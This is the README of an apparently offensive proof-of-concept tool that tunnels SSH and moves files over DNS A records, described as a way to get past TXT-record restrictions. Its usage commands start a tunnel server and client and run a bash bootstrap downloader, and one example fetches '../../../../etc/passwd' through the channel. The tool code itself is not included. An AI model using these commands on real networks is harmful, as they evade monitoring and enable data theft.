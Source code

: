 <pre>
# DNS-Exfil
PoC DNS exfiltration tool with bash bootstrap and file transfer functions using A records
exclusively. this will bypass a lot of systems that have restricted TXT records.

the tool has been written to conform pretty closely to ansi C and should build
under any OS that supports a posix-y gethostbyname() function


the dns tunnel server is intended to run on a server which can be the
the SOA for a domain or subdomain.

on the server:
# python dnstun.py --domain [SOA record name]

on the client:
$ ./client -s [SOA record name]


which will let you SSH to the SSH port on the server host (by default, but configurable):
$ ssh localhost -p 2093



downloading a file name "test" from the server using the bash bootstrapper, this is intended to be used
in places where you might only have keyboard or shell access with few tools, this script should even work
with busybox assuming it supports all of the dependencies (awk, ping) but you could easily modify this
to get the job done with our simple bootstrap downloader. One note about the "simple" method is that the file
name should only contain a-z,A-Z,0-9,-_ in its filename, a "." extenstion will fuck everything up in this mode

$./bootstrap_file_transfer.sh [SOA record name] [filename]


if you dont mind typing a bit more, and have python on the system, you can use the filedl.py script
to more quickly download a file as it makes use of multiple A recorcs unlike the "simple method". You
can also use any filename using this method since the filename is encoded during transit

$python filedl.py  -d [SOA record name] -f "../../../../../../../etc/passwd"


files are stored on the server in the "files" subdirectory from the server script..

now go.. tunnel..

</pre>
